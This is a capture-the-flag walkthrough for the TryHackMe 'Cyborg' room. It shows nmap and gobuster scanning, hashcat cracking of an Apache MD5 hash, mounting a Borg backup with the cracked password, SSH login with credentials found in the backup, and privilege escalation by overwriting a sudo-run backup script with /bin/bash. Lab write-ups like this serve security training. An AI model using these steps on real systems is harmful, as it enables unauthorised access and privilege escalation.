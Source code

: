 # Cyborg

**Room Link:** [https://tryhackme.com/room/cyborgt8](https://tryhackme.com/room/cyborgt8)

## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>







### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

## Hash

**Link:** [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example\_hashes)

<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
hashcat -m 1600 password /usr/share/wordlists/rockyou.txt
hashcat -m 1600 password --show
```

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (8).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sudo apt install borgbackup -y
mkdir backup
borg mount home/field/dev/final_archive backup
Password: squidward
```

Within the backup I can see credentials for alex

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh alex@$VICTIM
Password: S3cretP@s3
```

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Victim**

```
chmod 777 /etc/mp3backups/backup.sh
echo "/bin/bash" > /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh 
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>











